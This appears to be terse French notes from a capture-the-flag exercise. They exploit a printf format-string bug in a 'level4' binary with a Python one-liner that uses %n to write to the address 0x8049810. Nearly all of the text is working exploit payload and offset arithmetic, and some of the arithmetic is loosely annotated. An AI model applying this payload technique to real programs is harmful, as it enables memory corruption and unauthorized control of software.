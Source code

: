m = 0x8049810 = \x10\x98\x04\x08

m adrr au 12eme argument de printf + 4 au niveau du 200

16930116  - 81 = 16930035 = // 0x1010103

python -c "print ('\x10\x98\x04\x08' + '%1539094.x ' * 10  + '%1539162.x'+ '%n')" | ./level4